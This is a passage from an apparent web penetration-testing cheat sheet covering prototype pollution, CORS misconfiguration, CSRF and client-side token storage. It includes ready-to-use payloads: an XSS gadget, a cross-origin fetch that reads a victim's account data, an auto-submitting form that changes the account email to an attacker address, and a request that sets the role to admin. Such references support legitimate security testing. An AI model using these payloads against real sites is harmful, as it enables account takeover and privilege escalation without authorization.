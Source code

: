 ```js
// Common gadget keys
{"__proto__":{"innerHTML":"<img src=x onerror=alert(1)>"}}  // depends on framework
```

Framework-specific hotspots: lodash `_.merge`, deep clone utilities without `hasOwnProperty` checks.

***

### VI. 🌐 CORS Misconfig (Client-side observable)

**Red flags**

* `Access-Control-Allow-Origin: *` with `Access-Control-Allow-Credentials: true` (should never co-exist)
* Reflection of `Origin` header from arbitrary domains

**Quick POC (console from attacker origin):**

```js
fetch('https://victim/api/me', {credentials:'include', mode:'cors'})
 .then(r=>r.text()).then(t=>console.log(t))
```

***

### VII. 🩸 CSRF & Fetch/Forms

* **SameSite=Lax/Strict** can block simple GET/POST; test with **CORS preflighted** or **same-site top-level navigation**.
* Hidden CSRF if API trusts `X-Requested-With` or referer only.

**Auto-submit form (classic CSRF)**

```html
<form action="https://victim/account/email" method="POST">
  <input name="email" value="attacker@evil.tld">
</form><script>document.forms[0].submit()</script>
```

**fetch CSRF with cookies** (attacker origin):

```js
fetch('https://victim/profile', {
  method:'POST', credentials:'include',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({role:'admin'})
})
```

***

### VIII. 📦 Storage & Token Handling

* Hunt for `access_token` in `localStorage`, `sessionStorage`, `IndexedDB`.
* If tokens stored in `localStorage` and any XSS exists → full account takeover.
